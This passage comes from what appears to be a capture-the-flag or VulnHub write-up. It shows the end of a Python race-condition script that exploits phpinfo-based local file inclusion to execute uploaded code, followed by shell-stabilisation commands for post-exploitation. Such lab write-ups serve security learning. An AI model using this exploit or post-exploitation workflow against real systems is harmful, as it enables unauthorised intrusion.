 ```python
                if counter >= maxattempts:
                    break
        print()
        if e.is_set():
            print("Woot!  \m/")
        else:
            print(":(")
    except KeyboardInterrupt:
        print("\nTelling threads to shutdown...")
        e.set()

    print("Shuttin' down...")
    for t in tp:
        t.join()

if __name__=="__main__":
    print("Don't forget to modify the LFI URL")
    main()
```

Basically, it will try to upload a file and point it many times until the file's code is interpretated.

![](/assets/images/vh-infovore/phpinfolfi.py.png)

<br>

# Post-Exploitation
----------
### tty treatment
-----------
```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 185
```
